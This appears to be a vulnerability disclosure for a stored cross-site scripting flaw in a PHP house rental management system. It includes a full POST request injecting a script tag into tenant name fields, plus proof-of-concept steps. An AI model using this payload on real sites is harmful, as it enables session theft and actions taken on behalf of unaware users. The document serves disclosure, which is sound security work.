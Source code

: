 ### **Best House Rental Management System XSS Vulnerability**

- **Exploit Title**: Best House Rental Management System Project in PHP XSS Vulnerability  
- **Exploit Author**: Yasser Alshammari
- **Vendor Homepage**: [SourceCodester](https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html)  
- **Software Link**: [Download Here](https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+)  
- **Version**: Best House Rental Management System Project in PHP v1.0  
- **Tested On**: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/8.1.12  
- **CVE**: Reported, waiting for CVE number  

---

### **Description**

The `save_tenant` function in `admin_class.php` of the **Best House Rental Management System Project in PHP v1.0** is vulnerable to a stored Cross-Site Scripting (XSS) attack. This occurs because the `firstname` and `lastname` parameters are not properly sanitized, allowing an attacker to inject malicious JavaScript into the application. This script is executed when the tenants' page (`/rental/index.php?page=tenants`) is accessed by any user.

---

### **Payload Used**

```sh
POST /rental/ajax.php?action=save_tenant HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------3178982332774785074212688258
Content-Length: 1032
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/rental/index.php?page=tenants
Cookie: PHPSESSID=dknlqepm8oojar1k1bfeioo8gu
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="id"


-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="lastname"

<script>alert('XSS')</script>
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="firstname"

<script>alert('XSS')</script>
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="middlename"

Attacker
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="email"

test@test.com
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="contact"

Attacker
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="house_id"

12
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="date_in"

12
-----------------------------3178982332774785074212688258--
```

### **Proof of Concept**

Submit the above POST request to the `/rental/ajax.php?action=save_tenant` endpoint. Open the tenants page at `/rental/index.php?page=tenants`. Observe that the injected JavaScript `<script>alert('XSS')</script>` executes, demonstrating the XSS vulnerability.

### **Impact**
An attacker can inject arbitrary JavaScript into the application, which will execute whenever the affected page is accessed
This can lead to:
* Theft of session cookies or user credentials.
* Unauthorized actions on behalf of users.
* Malicious redirection or delivery of malicious content.
